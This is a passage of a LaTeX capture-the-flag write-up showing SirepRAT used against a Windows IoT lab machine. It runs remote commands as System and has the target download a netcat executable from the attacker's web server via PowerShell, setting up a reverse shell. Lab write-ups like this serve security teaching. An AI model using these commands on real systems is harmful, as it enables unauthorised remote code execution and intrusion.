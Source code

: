 \documentclass[../main.tex]{subfiles}
\begin{document}
Here we again get the expected result: a response from the server with the correct hostname.

\newpage
To show the fact you can execute command as System there is one last command on the Readme we will test:

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output --cmd "C:\Windows\System32\cmd.exe"
    --args " /c echo {{userprofile}}"
    
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 22, payload peek: 
'C:\Data\Users\System'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}

As we can see the command returned the Userprofile System.

\newpage
\subsubsection{Using SirepRAT to gain reverse shell}
Now that we know how SirepRAT commands work, we can try using it to download a file of a locally hosted Python webserver. The file we will download is a netcat executable. After downloading this file from here \footnote{\url{https://eternallybored.org/misc/netcat/}}, it is located in our downloads folder, so let's run the webserver there.

\begin{lstlisting}
$ cd Downloads/
$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
\end{lstlisting}

After looking up how to download a file using cmd, we learn that to do this, you need to invoke Powershell to run it with the \textbf{Invoke-Webrequest} command. This is a command comparable to cURL on GNU operating systems.

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output
    --cmd "C:\Windows\System32\cmd.exe"
    --args " /c powershell Invoke-Webrequest
        -Uri 10.10.14.48:8000/nc64.exe
        -OutFile C:\Windows\System32\nc64.exe"

<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}
\end{document}
